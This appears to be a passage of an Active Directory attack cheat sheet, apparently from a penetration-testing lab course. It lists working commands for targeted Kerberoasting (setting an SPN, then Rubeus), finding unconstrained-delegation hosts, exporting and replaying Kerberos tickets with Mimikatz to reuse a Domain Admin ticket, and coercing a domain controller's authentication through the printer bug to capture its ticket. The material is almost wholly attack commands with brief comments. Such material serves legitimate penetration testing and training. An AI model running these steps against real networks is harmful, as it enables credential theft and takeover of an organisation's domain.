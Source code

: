 ## Set a SPN for the user (as said above)
`Set-DomainObject -Identity support1user -Set @{serviceprincipalname='ops/whatever1'}`
## Using ActiveDirectory module:
`Set-ADUser -Identity support1user -ServicePrincipalNames @{Add='ops/whatever1'}`

## Kerberoast the user
`Rubeus.exe kerberoast /outfile:targetedhashes.txt`


# Kerberos Delegation
## UNCONSTRAINED DELEGATION

# The idea is Discover domain computers which have unconstrained delegation enabled using PowerView :
`Get-DomainComputer -UnConstrained`
## Using ActiveDirectory module:
`Get-ADComputer -Filter {TrustedForDelegation -eq $True}`
`Get-ADUser -Filter {TrustedForDelegation -eq $True}`

## Compromise the server(s) where Unconstrained delegation is enabled and get admin privs. We must trick or wait for a domain admin to connect a service on appsrv. Now, if the command is run again:
`Invoke-Mimikatz–Command '"sekurlsa::tickets /export"'`
## The DA token could be reused:
`Invoke-Mimikatz -Command '"kerberos::ptt C:\Users\appadmin\Documents\user1\[0;2ceb8b3]-2-0-60a10000-Administrator@krbtgt-DOLLARCORP.MONEYCORP.LOCAL.kirbi"'`

## PRINTER-BUG A feature of MS-RPRN which allows any domain user (Authenticated User) can force any machine (running the Spooler service) to connect to second a machine of the domain user's choice.

## We can capture the TGT of dcorp-dc$ by using Rubeus (https://github.com/GhostPack/Rubeus) on dcorp-appsrv:
`Rubeus.exe monitor /interval:5 /nowrap`
## And after that run MS-RPRN.exe (https://github.com/leechristensen/SpoolSample) on the student VM:
`MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local\\dcorp-appsrv.dollarcorp.moneycorp.local`
